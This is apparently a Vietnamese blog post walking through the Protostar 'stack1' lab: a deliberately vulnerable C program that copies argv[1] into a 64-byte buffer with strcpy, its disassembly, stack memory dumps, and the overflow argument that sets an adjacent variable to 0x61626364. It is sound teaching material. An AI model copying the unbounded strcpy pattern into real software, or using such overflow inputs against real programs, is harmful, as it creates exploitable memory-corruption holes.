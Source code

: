```yaml
---
layout: post
title: stack1
---
```

Trong bài trước, chúng ta đã tìm hiểu về cách 1 biến tạm được lưu trên stack và lỗ hổng cho phép giá của nó có thể thay đổi gián tiếp qua hàm `gets`. Ngoài hàm `gets`, trong bài này, ta sẽ xem xét một hàm khác là `strcpy`, cũng có khả năng gây ra lỗ hổng tương tự.
Sau đây là source code của chương trình stack1:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```

Cũng giống như bài trước, ta rút ra được những lưu ý sau:
1. Biến `modified` sẽ được lưu trên stack với địa chỉ `esp + 0x5c`. Biến này có 4 byte.
2. Biến `buffer` cũng được lưu trên stack từ địa chỉ `esp + 0x1c` cho đến `esp + 0x5b`. Biến này có 64 byte.

2 biến `buffer` và `modified` nằm kề nhau và chiếm bộ nhớ từ `esp + 0x1c` cho đến hết `esp + 0x5f`.
Ở đây, giá trị của `buffer` sẽ được quyết định bởi tham số đầu tiên `argv[1]` khi chương trình được chạy.
Chỉ cần tham số này vượt quá 64 byte, giá trị của `modified` cũng sẽ bị thay đổi.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi người dùng nhập giá trị cho `buffer`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">modified</span>.
<pre class="memory">
0xbffff6f0:     0xbffff70c      0xbffff93e      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      <span style="color:aqua">0xb7eada75</span>
0xbffff710:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080496fc</span>      <span style="color:aqua">0xbffff728</span>      <span style="color:aqua">0x08048334</span>
0xbffff720:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080496fc</span>      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0x08048509</span>
0xbffff730:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080484f0</span>      <span style="color:aqua">0xbffff758</span>
0xbffff740:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080484fb</span>      <span style="color:orangered">0x00000000</span>
</pre>

Nếu sử dụng input như bài trước, ta sẽ sửa được giá trị của `modified` thành `0x00000078`.
Sau đây là bộ nhớ sau `strcpy`.

```bash
stack1 "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888x"
```

<pre class="memory">
0xbffff6f0:     0xbffff70c      0xbffff941      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      <span style="color:aqua">0x41414141</span>
0xbffff710:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff720:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff730:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff740:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x00000078</span>
</pre>

Tuy nhiên để đạt được đúng mục tiêu exploit chương trình stack1, chúng ta sẽ cần gán giá trị cho `modified` là `0x61626364`.
4 byte giá trị này tương đương với `"dcba"` (chuỗi ngược do kiến trúc CPU dùng Little Endian).
Sau đây là lệnh và tham số để chạy stack1 cho ra đúng kết quả mong muốn.

```bash
stack1 "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888dcba"
```

Đi kèm với đó là bộ nhớ sau `strcpy` để bạn dễ tưởng tượng.

<pre class="memory">
0xbffff6f0:     0xbffff70c      0xbffff93e      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      <span style="color:aqua">0x41414141</span>
0xbffff710:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff720:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff730:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff740:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x61626364</span>
</pre>

## Ref
```bash
user@protostar:~$ stack1 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888dcba
you have correctly got the variable to the right value
```
